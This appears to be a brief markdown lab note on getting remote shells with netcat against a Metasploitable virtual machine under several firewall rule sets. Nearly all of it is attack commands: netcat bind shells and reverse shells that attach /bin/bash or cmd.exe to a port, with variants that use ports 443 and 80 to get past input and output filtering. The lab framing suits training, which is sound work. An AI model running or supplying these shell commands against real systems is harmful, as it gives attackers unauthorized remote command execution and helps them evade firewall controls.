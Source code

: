 # Remote administration using netcat

## Info

* File: firewall.zip
	* limpa_rules.sh
	* rules2.sh
	* rules3.sh
	* rules4.sh

* Virtual Machine: metasploitable

## Basic Sheel
* Open port connection (vict):
```
$ nc -vnlp 6000 -e /bin/bash
$ nc -vnlp 6000 -e cmd.exe
```

* Connect
```
$ nc -vn 192.168.0.100 6000
```

### rules2.sh

Basic firewall

* Open port connection (vict):
```
$ nc -vnlp 443 -e /bin/bash
$ nc -vnlp 443 -e cmd.exe
```

* Connect
```
$ nc -vn 192.168.0.100 443
```

## Reverse sheel

### rules3.sh

Blocks input, but allows output

* Open port connection
```
$ nc -vnlp 9050
```

* Connect (vict):
```
$ nc -vn 192.168.0.100 9050 -e /bin/bash
$ nc -vn 192.168.0.100 9050 -e cmd.exe
```

### rules4.sh

Blocks input and output (only allows output to 80,443)

* Open port connection (vict):
```
$ nc -vnlp 6000 -e /bin/bash
$ nc -vnlp 6000 -e cmd.exe
```

* Connect
```
$ nc -vn 192.168.0.100 6000
```